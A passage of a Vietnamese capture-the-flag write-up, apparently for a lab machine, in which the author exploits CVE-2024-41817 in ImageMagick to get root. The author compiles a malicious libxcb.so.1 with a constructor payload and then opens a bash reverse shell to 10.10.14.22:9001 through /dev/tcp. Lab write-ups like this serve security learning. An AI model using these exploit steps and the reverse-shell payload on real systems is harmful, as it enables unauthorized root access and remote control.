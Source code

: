 ```bash
Compiler: gcc (9.4)
```

Tìm kiếm lỗ hổng của phiên bản này, tôi có [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/issues/7568)

Làm từng bước theo PoC này. Tôi sẽ thêm 1 payload với command đơn giản `id` để kiểm tra xem `magick` có chạy được không.

```bash
developer@titanic:~$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

```bash
developer@titanic:~$ ll libxcb.so.1
-rwxrwxr-x 1 developer developer 15616 Mar 31 08:55 libxcb.so.1*
developer@titanic:~$ /usr/bin/magick
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Vậy là payload thực hiện thành công. Tôi sẽ thay đổi payload thành revershell. 

Trước đó thì bật listener.

```bash
neo@fs0c13ty ~$ nc -lnvp 9001
listening on [any] 9001 ...
```

```bash
developer@titanic:~$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.22/9001 0>&1'");
    exit(0);
}
EOF
```

```bash
neo@fs0c13ty ~$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.55] 47498
bash: cannot set terminal process group (3480): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# id
id
uid=0(root) gid=0(root) groups=0(root)
root@titanic:/opt/app/static/assets/images# cd
cd
root@titanic:~# ls
ls
cleanup.sh
images
revert.sh
root.txt
snap
```
